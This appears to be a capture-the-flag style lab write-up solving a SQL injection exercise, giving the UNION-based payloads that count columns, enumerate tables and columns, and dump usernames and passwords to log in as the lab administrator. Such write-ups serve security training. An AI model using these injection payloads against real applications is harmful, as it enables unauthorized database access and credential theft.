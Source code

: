 
## Description:

this lab contains a SQL injection vulnerability in the product category filter, it is possible to use a UNION attack to retrieve data from other tables

the application has a login function, the database contains a table that holds usernames and passwords, the name and columns of this table must be determined then retrieved 

to solve the lab log in as *administrator*

## Solution:

1. it is necessary to discover how many columns are being returned from the database:

	' UNION SELECT NULL,NULL--
[this step usually involves simple trial and error]

2. it might prove useful to list the names of all tables present in the database:

	' UNION SELECT NULL,table_name FROM information_schema.tables--

in this case there is a table called pg_users, but futher enumerating it shows only the users 'peter' and 'postgres' with their passwords being returned as asterisks so it is safe to assume this is not what we are looking for

there is also a table called users_wuxqrc

3. further enumerating the found table for its columns names

	 ' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_wuxqrc'--

we find that there are two columns: username_kgorik and password_bsbtde

4. querying the users_wuxqrc table for the newfound columns

	 ' UNION SELECT username_kgorik,password_bsbtde FROM users_wuxqrc--

the credentials for the *administrator* user are then returned

| adminsitrator | vofmq7nderurldq8mcdq | 
| - | - | 

## Notes:


